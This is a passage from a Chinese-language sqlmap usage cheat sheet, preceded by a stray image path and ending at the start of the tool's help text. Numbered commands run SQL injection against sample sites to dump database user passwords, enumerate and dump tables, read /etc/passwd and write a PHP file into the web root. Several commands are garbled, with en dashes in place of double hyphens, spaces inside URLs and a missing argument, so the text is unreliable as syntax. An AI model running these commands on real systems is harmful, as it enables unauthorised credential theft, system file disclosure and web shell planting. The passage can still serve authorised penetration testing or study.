 sqlmap -u http://www.evil0x.com/ test.php?p=2 –is-dba -U 用户名 -v 1

3.读取所有数据库用户或指定数据库用户的密码

sqlmap -u http://www.evil0x.com/ test.php?p=2 –users –passwords -v 2

sqlmap -u http://www.evil0x.com/ test.php?p=2 –passwords -U root -v 2

4.获取所有数据库

sqlmap -u http://www.evil0x.com/ test.php?p=2 –dbs -v 2

5.获取指定数据库中的所有表

sqlmap -u http://www.evil0x.com/ test.php?p=2 –tables -D mysql -v 2

6.获取指定数据库名中指定表的字段

sqlmap -u http://www.evil0x.com/ test.php?p=2 –columns -D mysql -T users -v 2

7.获取指定数据库名中指定表中指定字段的数据

sqlmap -u http://www.evil0x.com/ test.php?p=2 –dump -D mysql -T users -C “username,password” -s “sqlnmapdb.log” -v 2

8.file-read读取web文件

sqlmap -u http://www.evil0x.com/ test.php?p=2 –file-read “/etc/passwd” -v 2

9.file-write写入文件到web

sqlmap -u http://www.evil0x.com/ test.php?p=2 –file-write /localhost/mm.php –file-dest

./sqlmap.py -u "http://www.nxadmin.com/sql-injection.php?id=1" –file-write /test/test.txt –file-dest /var/www/html/1.txt

将本地的test.txt写入到站点服务器的html目录下。

 

 

 

 

 

 

 

python sqlmap/sqlmap.py -help

 

Options（选项）：

--version 显示程序的版本号并退出

-h, --help 显示此帮助消息并退出

-v VERBOSE 详细级别：0-6（默认为1）

 

Target（目标）：

以下至少需要设置其中一个选项，设置目标URL。
